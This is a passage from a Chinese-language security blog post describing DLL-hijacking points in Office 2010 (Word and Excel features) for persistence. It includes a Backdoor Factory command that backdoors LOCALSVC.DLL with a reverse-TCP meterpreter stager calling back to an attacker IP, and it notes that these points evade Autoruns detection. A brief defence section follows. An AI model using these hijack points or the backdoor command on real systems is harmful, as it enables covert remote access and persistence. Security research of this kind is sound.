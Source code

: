 针对Office 2010，分享几个自己找到的DLL劫持利用位置

### 1、劫持Word-审阅试图

LOCALSVC.DLL，位于`C:\Program Files\Common Files\microsoft shared\RRLoc14\`

对该dll添加payload

```
./backdoor.py -f LOCALSVC.DLL -H 192.168.81.192 -P 4444 -s reverse_tcp_stager_threaded
```


替换dll(需要管理员权限)，启动word.exe，切换至审阅视图，弹回meterpreter

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-24/1-2.gif)

### 2、劫持word-插入-图片

tiptsf.dll，位于`C:\Program Files\Common Files\microsoft shared\ink\`

需要`TrustedInstaller`权限才能替换

关于如何获得`TrustedInstaller`权限，可参考文章《渗透技巧——Token窃取与利用》

### 3、劫持word-文件

也影响别的位置：

word -页面布局-主题-浏览主题

GrooveIntlResource.dll，位于`C:\Program Files\Microsoft Office\Office14\2052`

需要管理员权限

### 4、劫持Excel-插入-图片

MSPTLS.DLL，位于`C:\Program Files\Common Files\microsoft shared\OFFICE14\`

需要管理员权限

以上测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-24/1-3.gif)

**注:**

本节内容仅为了演示DLL劫持的一些利用方法，这些特殊的劫持位置只会在软件的特定功能打开时才会启动，所以能够绕过Autoruns的检测

## 0x04 防御
---

对于系统DLL，通过会带有微软签名，如果对DLL植入后门，签名会失效，这是一个老生常谈的问题

而对于第三方开发的软件，调用的第三方DLL不加签名，那么被利用的风险很大

## 0x05 小结
---

本文测试了使用The Backdoor Factory向DLL文件植入后门的方法，介绍修复BUG的思路，分享了一种DLL劫持的利用方法，仅供测试，通过总结该利用方法的特点，简要介绍了防御方面需要注意的问题


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)


